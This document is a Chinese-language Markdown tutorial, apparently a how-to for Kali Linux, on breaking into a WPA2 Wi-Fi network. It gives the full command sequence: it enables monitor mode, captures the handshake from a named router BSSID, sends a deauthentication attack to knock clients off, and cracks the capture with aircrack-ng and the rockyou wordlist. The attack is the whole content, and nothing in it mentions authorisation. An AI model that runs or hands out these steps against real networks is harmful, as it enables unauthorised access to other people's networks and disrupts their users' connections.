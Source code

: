 总操作流程：
- 1、[开启](#kail-linux-01)
- 2、[抓包](#kail-linux-02)
- 3、[破解](#kail-linux-03)

***

# <a name="kail-linux-01" href="#" >开启</a>

>1、开启监听模式

```shell
ifconfig wlan0 up

# 关闭命令：airmon-ng stop wlan0mon
airmon-ng start wlan0

ifconfig
```

- 成功标志

![](image/1-1.png)

>2、开始扫描附近的无线网络

```shell
airodump-ng wlan0mon
```
![](image/1-2.png)

# <a name="kail-linux-02" href="#" >抓包</a>

>1、监听与获取

```
airodump-ng wlan0mon --bssid 78:02:F8:27:F8:BB -c 6 -w wpa2 
```
 - c指定频道号
 - bssid指定路由器bssid
 - w指定抓取的数据包保存位置

![](image/1-3.png)

 > 2、断开路由器一次

 `路由被断开后会自动启动，启动后连接wifi设备的会自动重新连接wifi`

 ```shell
 aireplay-ng -0 1 -a 78:02:F8:27:F8:BB wlan0mon
 ```

- 0表示发起deauthentication攻击， 0为无限
- a指定无线路由器BSSID
- 成功标志

![](image/1-4.png)

# <a name="kail-linux-01" href="#" >破解</a>

```
airmon-ng stop wlan0mon

# 解压字典
gzip -d /usr/share/wordlists/rockyou.txt.gz

cd ~

# 可以看到抓包的-w后的 wpa2的名字的.cap文件

ls wpa*

# 第一次抓包是01，第二次抓包是02
aircrack-ng -a2 -b 78:02:F8:27:F8:BB -w /usr/share/wordlists/rockyou.txt wpa2-01.cap
或则
aircrack-ng -a2 -e MIUI5 -w /usr/share/wordlists/rockyou.txt wpa2-01.cap
```

- -b是指定要破解wifi的BSSID
- -e是指定要破解wifi的名
